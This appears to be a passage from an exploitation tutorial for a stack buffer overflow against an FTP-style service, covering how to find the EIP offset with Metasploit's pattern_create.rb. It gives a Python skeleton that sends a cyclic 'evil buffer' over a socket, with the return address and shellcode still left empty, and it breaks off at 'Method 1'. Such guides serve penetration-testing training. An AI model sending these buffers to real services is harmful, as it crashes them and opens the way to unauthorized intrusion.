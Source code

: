 # 2. Find EIP and control ESP

We are able to establish that we are able to crash the application with a relative number of bytes. Now we need to identify the exact number bytes that it takes to fill the buffer. Metasploit provides a ruby script called pattern_create.rb that will create a unique string with no repeating characters. After we send this payload to the buffer, it will display what the offset is which we'll use for the next step in finding the EIP.

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 666 (Change 666 to the value that crashed the server) 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2...
```

Create a new script called exploit.py
You take the unique string character created and that becomes your new buffer in exploit.py 


### Skeleton

```Python
#!/usr/bin/python 
import socket

ip = "10.0.0.1"
port = 21

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2..."
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Send that payload to the application, make sure it crashed and grab the EIP value in the debugger.

Now, we have 3 methods to find the offset:


## Method 1
